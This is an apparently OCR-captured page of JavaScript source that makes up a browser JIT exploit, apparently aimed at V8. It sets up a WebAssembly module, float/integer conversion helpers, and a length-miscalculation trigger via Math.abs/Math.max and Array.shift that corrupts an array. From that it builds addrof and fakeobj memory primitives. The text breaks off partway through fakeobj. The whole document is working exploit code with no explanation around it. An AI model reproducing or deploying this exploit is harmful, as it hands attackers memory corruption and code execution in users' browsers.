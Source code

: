 ```
<script>
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);
let buf2 = new ArrayBuffer(0x150);

function ftoi(val) {
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
}

function itof(val) {
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

const _arr = new Uint32Array([2**31]);

function foo(a) {
    var x = 1;
	x = (_arr[0] ^ 0) + 1;

	x = Math.abs(x);
	x -= 2147483647;
	x = Math.max(x, 0);

	x -= 1;
	if(x==-1) x = 0;

	var arr = new Array(x);
	arr.shift();
	var cor = [1.1, 1.2, 1.3];

	return [arr, cor];
}

for(var i=0;i<0x3000;++i)
    foo(true);

var x = foo(false);
var arr = x[0];
var cor = x[1];

const idx = 6;
arr[idx+10] = 0x4242;

function addrof(k) {
    arr[idx+1] = k;
    return ftoi(cor[0]) & 0xffffffffn;
}

function fakeobj(k) {
    cor[0] = itof(k);
    return arr[idx+1];
```
